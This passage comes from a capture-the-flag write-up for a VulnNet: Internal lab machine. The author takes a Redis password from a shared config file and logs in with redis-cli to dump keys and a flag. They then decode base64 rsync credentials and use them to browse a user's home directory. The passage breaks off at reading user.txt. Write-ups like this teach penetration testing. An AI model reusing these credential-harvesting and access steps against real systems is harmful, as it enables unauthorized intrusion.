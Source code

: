 On viewing the files we get a file redis.conf in redis

that shows,

requirepass "B65Hx562F@ggAZ@F"

if you remember redis is open on port 6379

Lets try to connect with it 

~~┌──(root㉿kali)-[/home/…/Desktop/VulnNet:Internal/nfs/redis]
└─#  redis-cli -h 10.10.10.230 -p 6379 -a B65Hx562F@ggAZ@F 
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
10.10.10.230:6379> KEYS *
1) "int"
2) "marketlist"
3) "internal flag"
4) "authlist"
5) "tmp"
(0.93s)
10.10.10.230:6379> ~~


lets try to get the "internal flag"

~~~~10.10.10.230:6379> get "internal flag"

"THM{ff8e518addbbddb74531a724236a8221}"
~~~~~~~~~~~~

On inspecting authlist key i got an encrypted text 

"QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="

above text is base64 encoded that is 
"Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v"

This gives us hint that we should try to to connect with rsync


### Rsync

We can sync our dir with that on server by useing following cmd.

~~~~┌──(root㉿kali)-[/home/…/Desktop/VulnNet:Internal/nfs/redis]
└─# cd /root
                                                                                                                                                                                                                                              
┌──(root㉿kali)-[~]
└─# ls    
files
                                                                                                                                                                                                                                              
┌──(root㉿kali)-[~]
└─# cd files                  
                                                                                                                                                                                                                                              
┌──(root㉿kali)-[~/files]
└─# ls 
sys-internal
                                                                                                                                                                                                                                              
┌──(root㉿kali)-[~/files]
└─# cd sys-internal 
                                                                                                                                                                                                                                              
┌──(root㉿kali)-[~/files/sys-internal]
└─# ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
                                                                                                                                                                                                                                              
┌──(root㉿kali)-[~/files/sys-internal]
└─# cat user.txt 
~~~~
